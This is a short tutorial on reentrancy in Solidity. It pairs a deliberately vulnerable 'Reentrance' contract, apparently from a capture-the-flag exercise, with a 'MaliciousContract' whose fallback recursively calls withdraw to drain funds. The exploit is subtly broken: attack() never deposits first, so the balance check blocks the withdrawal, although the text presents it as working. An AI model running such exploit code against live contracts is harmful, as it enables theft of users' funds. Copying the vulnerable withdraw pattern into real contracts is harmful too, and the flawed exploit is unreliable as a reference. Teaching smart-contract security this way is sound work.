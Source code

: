 # Understanding Reentrancy in Solidity Smart Contracts

Reentrancy is a critical concept in the realm of blockchain security, particularly when it comes to auditing and securing smart contracts. Mastering this concept can unlock numerous insights and strategies for ensuring the robustness and safety of decentralized applications (DApps).

## What is Reentrancy?

Reentrancy refers to the ability of a contract to call back into itself or another contract while it is still executing. This characteristic can lead to unexpected behaviors and vulnerabilities if not handled properly. In Solidity smart contracts, reentrancy bugs are particularly concerning as they can enable malicious actors to exploit vulnerabilities and drain funds from contracts.

## Exploring a Target Contract

Consider the following Solidity smart contract:

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.12;
    
    import 'openzeppelin-contracts-06/math/SafeMath.sol';
    
    contract Reentrance {
      
      using SafeMath for uint256;
      mapping(address => uint) public balances;
    
      function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
      }
    
      function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
      }
    
      function withdraw(uint _amount) public {
        if(balances[msg.sender] >= _amount) {
          (bool result,) = msg.sender.call{value:_amount}("");
          if(result) {
            _amount;
          }
          balances[msg.sender] -= _amount;
        }
      }
    
      receive() external payable {}
    }

    
This contract allows users to donate funds, check their balances, and withdraw funds. However, it contains a vulnerability related to reentrancy in the withdraw function.

Exploiting Reentrancy
To exploit the reentrancy vulnerability in the withdraw function, we can create a malicious contract that calls the withdraw function of the target contract and has a fallback function that gets triggered during the withdrawal process. This fallback function can then recursively call the withdraw function, allowing it to repeatedly drain funds from the target contract.


Here's an example of an exploit contract:


    ```solidity
    contract MaliciousContract {
        Reentrance private targetContract;
    
        constructor(address _targetContract) public {
            targetContract = Reentrance(_targetContract);
        }
    
        function attack() public payable {
            targetContract.withdraw(msg.value);
        }
    
        fallback() external payable {
            if (address(targetContract).balance >= msg.value) {
                targetContract.withdraw(msg.value);
            }
        }
    }


In this exploit contract, the attack function initiates the reentrancy attack by calling the withdraw function of the target contract (Reentrance). Additionally, the fallback function is triggered during the withdrawal process, allowing for recursive calls to the withdraw function.

### Conclusion
Understanding reentrancy vulnerabilities and how they can be exploited is crucial for ensuring the security of smart contracts on blockchain platforms. By identifying and addressing such vulnerabilities, developers can build more robust and resilient decentralized applications, protecting users' funds and maintaining trust in the ecosystem.

